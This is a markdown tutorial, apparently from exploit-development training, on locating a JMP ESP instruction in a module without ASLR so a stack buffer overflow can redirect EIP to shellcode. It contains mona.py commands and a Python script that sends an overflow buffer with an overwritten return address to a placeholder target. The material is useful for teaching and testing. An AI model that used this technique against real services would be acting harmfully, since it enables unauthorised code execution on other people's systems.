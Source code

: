 # Finding the Right Module

## Overview
Finding the right module is about locating a reliable address in memory that contains a "JMP ESP" (or equivalent) instruction. This address will be placed in the EIP to redirect program execution to our shellcode.

## Key Concepts

- **JMP ESP**: Assembly instruction that redirects execution to the location pointed to by the ESP register
- **Return Address**: The memory address we'll place in the EIP
- **Module**: A DLL or executable file loaded in the process's memory space
- **ASLR**: Address Space Layout Randomization - security feature that randomizes module addresses

## Process

1. **Identify Loaded Modules**: List all modules loaded by the vulnerable application
2. **Look for Non-ASLR Modules**: Focus on modules that have ASLR disabled
3. **Find the JMP ESP Instruction**: Search within these modules for the JMP ESP (\\xFF\\xE4) opcode
4. **Extract the Memory Address**: Note the exact address where this instruction is located
5. **Test the Address**: Verify that it reliably redirects execution

## Tools

### Mona.py (for Immunity Debugger)

```
!mona modules                         # List loaded modules
!mona find -s "\xff\xe4" -m module.dll # Find JMP ESP in a specific module
```

### Metasploit's nasm_shell

```bash
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm> jmp esp
00000000  FFE4              jmp esp
```

## Python Script Example for Testing

```python
#!/usr/bin/python
import socket, sys
import struct

offset = 2040  # Replace with your confirmed offset
jmp_esp = 0x77A11D90  # Replace with your JMP ESP address

# Convert address to little-endian format
eip = struct.pack("<I", jmp_esp)

buffer = b"A" * offset + eip + b"C" * (3000 - offset - 4)

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('TARGET_IP', TARGET_PORT))
    s.send(('COMMAND ' + buffer.decode(errors='ignore') + '\r\n').encode())
    s.close()
    print("Buffer sent with JMP ESP address")
except:
    print("Error connecting to server")
    sys.exit()
```

## Important Considerations

- Choose modules that belong to the application itself when possible
- Look for modules without memory protections (ASLR, DEP, etc.)
- Addresses must be converted to little-endian format (reverse byte order)
- Instruction addresses may vary between versions of the same module
- Some addresses may contain bad characters and should be avoided
- Verify the stability of the chosen address across application restarts

## Module Selection Criteria

1. **Reliability**: Choose modules that load at the same address consistently
2. **Permissions**: The module must be executable (not protected by DEP)
3. **Stability**: Prefer modules that are unlikely to change across versions
4. **No Bad Characters**: The address must not contain any identified bad characters

## Next Steps After Finding the Right Module

After identifying a suitable JMP ESP address:
1. Generate shellcode avoiding the identified bad characters
2. Add the shellcode to your exploit
3. Add NOP sled if necessary
4. Complete the exploit structure

